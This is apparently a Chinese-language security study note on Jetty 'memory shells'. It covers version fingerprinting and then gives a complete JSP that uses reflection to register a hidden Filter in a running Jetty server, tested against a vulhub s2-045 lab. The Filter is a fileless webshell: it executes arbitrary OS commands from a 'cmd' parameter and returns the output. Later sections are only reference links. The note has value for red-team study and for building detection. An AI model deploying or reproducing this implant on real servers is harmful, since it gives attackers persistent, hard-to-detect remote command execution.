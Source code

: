```yaml
---
date: 2024-09-19
---
```


# Jetty内存马

Eclipse Jetty 是一个轻量级、高度可扩展、基于 Java 的 Web 服务器和 Servlet 引擎。Jetty 的目标是以高容量、低延迟的方式支持 Web 协议（HTTP/1、HTTP/2、HTTP/3、WebSocket 等），从而提供最高性能，同时保持易用性和与多年 Servlet 开发的兼容性。

Jetty 是一种现代的完全异步 Web 服务器，作为面向组件的技术有着悠久的历史，可以轻松嵌入到应用程序中，同时仍然为 Web 应用程序部署提供可靠的传统发行版。

---

## 基本信息收集

### 查看版本号

- Web侧的话

  - 响应标头中可能会有 Jetty 版本信息, 例如:

    ![image-20240918162938756](http://cdn.ayusummer233.top/DailyNotes/202409181629820.png)

  - Wappalyzer 应该也是用的上面这种方案获取的版本信息:

    ![image-20240918163003019](http://cdn.ayusummer233.top/DailyNotes/202409181630064.png)

- 主机侧的话

  - 可以在 JavaWeb 项目的 `pom.xml` 中看到 jetty 的版本号

    ![image-20240918162309589](http://cdn.ayusummer233.top/DailyNotes/202409181623686.png)

  - 直接 `find / | grep jetty` 也可能看到相应路径信息中显示的 jetty 版本信息:

    ![image-20240918162417425](http://cdn.ayusummer233.top/DailyNotes/202409181624482.png)

---

## 构造可用的 Servlet

Jetty 9.2.x 提供了更加安全且可维护的方式来处理 `Servlet` 的动态注册

可以通过 `ServletHandler` 和 `ServletHolder` 来动态注册 `Servlet`，并设置 URL 映射。这不再需要反射访问私有字段

> TODO: 搞不出来, 看了下 `web.xml` 里也没有配置 servlet mapping 之类的, 遂放弃

---

## 构造内存马

> [Jetty 内存马注入分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12182?time__1311=GqGxRDniiQQ0526Dy7D97rTnikxuYoD#toc-3)
>
> [memShell/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java at master · feihong-cs/memShell (github.com)](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java)
>
> [3gstudent-Blog](https://3gstudent.github.io/)
>
> [Java利用技巧——Jetty Servlet型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Servlet型内存马)

---

## Filter内存马

> [从0到1学会Jetty内存马注入 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/15141?u_atoken=1f048c5fb527d82d5ec4ba4c07b4c57d&u_asig=0a472f8c17266484778997576e004d)
>
> [memShell/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java at master · feihong-cs/memShell (github.com)](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java)
>
> [Java利用技巧——Jetty Filter型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Filter型内存马)
>
> [Jetty 内存马注入分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12182?time__1311=GqGxRDniiQQ0526Dy7D97rTnikxuYoD#toc-3)

环境: vulhub 的 s2-045 Docker, 其中 Jetty 版本为 9.2.11

---

```jsp
<%@ page import="java.lang.reflect.Field"%>
<%@ page import="java.lang.reflect.Method"%>
<%@ page import="java.util.Scanner"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.io.*"%>

<%
    String filterName = "myFilter";
    String urlPattern = "/filter";
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner( in ).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                servletResponse.getWriter().flush();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {
        }
    };

    Method threadMethod = Class.forName("java.lang.Thread").getDeclaredMethod("getThreads");
    threadMethod.setAccessible(true);
    Thread[] threads = (Thread[]) threadMethod.invoke(null);
    ClassLoader threadClassLoader = null;

    for (Thread thread:threads)
    {
        threadClassLoader = thread.getContextClassLoader();
        if(threadClassLoader != null){
            if(threadClassLoader.toString().contains("WebAppClassLoader")){
                Field fieldContext = threadClassLoader.getClass().getDeclaredField("_context");
                fieldContext.setAccessible(true);
                Object webAppContext = fieldContext.get(threadClassLoader);
                
                // 打印调试信息
                out.println("webAppContext class: " + webAppContext.getClass().getName() + "<br>");
                out.println("webAppContext superclass: " + webAppContext.getClass().getSuperclass().getName() + "<br>");
                
                try {
                    // 获取 _servletHandler 字段
                    Field fieldServletHandler = webAppContext.getClass().getSuperclass().getSuperclass().getDeclaredField("_servletHandler");
                    fieldServletHandler.setAccessible(true);
                    Object servletHandler = fieldServletHandler.get(webAppContext);
                    Field fieldFilters = servletHandler.getClass().getDeclaredField("_filters");
                    fieldFilters.setAccessible(true);
                    Object[] filters = (Object[]) fieldFilters.get(servletHandler);
                    boolean flag = false;
                    for(Object f:filters){
                        Field fieldName = f.getClass().getSuperclass().getDeclaredField("_name");
                        fieldName.setAccessible(true);
                        String name = (String) fieldName.get(f);
                        if(name.equals(filterName)){
                            flag = true;
                            break;
                        }
                    }
                    if(flag){
                        out.println("[-] Filter " + filterName + " exists.<br>");
                        return;
                    }
                    out.println("[+] Add Filter: " + filterName + "<br>");
                    out.println("[+] urlPattern: " + urlPattern + "<br>");
                    ClassLoader classLoader = servletHandler.getClass().getClassLoader();
                    Class sourceClazz = null;
                    Object holder = null;
                    Field field = null;
                    try{
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
                        field = sourceClazz.getDeclaredField("JAVAX_API");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, field.get(null));
                    }catch(ClassNotFoundException e){
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.BaseHolder$Source");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, Enum.valueOf(sourceClazz, "JAVAX_API"));
                    }
                    holder.getClass().getMethod("setName", String.class).invoke(holder, filterName);               
                    holder.getClass().getMethod("setFilter", Filter.class).invoke(holder, filter);
                    servletHandler.getClass().getMethod("addFilter", holder.getClass()).invoke(servletHandler, holder);

                    Class  clazz         = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
                    Object filterMapping = clazz.newInstance();
                    Method method        = filterMapping.getClass().getDeclaredMethod("setFilterHolder", holder.getClass());
                    method.setAccessible(true);
                    method.invoke(filterMapping, holder);
                    filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{urlPattern}});
                    filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
                    servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);
                } catch (NoSuchFieldException e) {
                    out.println("Error: " + e.getMessage() + "<br>");
                }
            }     
        }
    }
%>
```

![image-20240920152529930](http://cdn.ayusummer233.top/DailyNotes/202409201525001.png)

![image-20240920145928096](http://cdn.ayusummer233.top/DailyNotes/202409201459280.png)

![image-20240920150008171](http://cdn.ayusummer233.top/DailyNotes/202409201500230.png)

---

## Servlet型内存马

> [Java利用技巧——Jetty Servlet型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Servlet型内存马)





---

## Customizer型内存马

> [一种在高版本JDK下 的新型嵌入式Jetty Customizer内存马实现 - 白帽酱の博客 (rce.moe)](https://rce.moe/2023/08/19/Jetty-Customize-memory-webshell/)



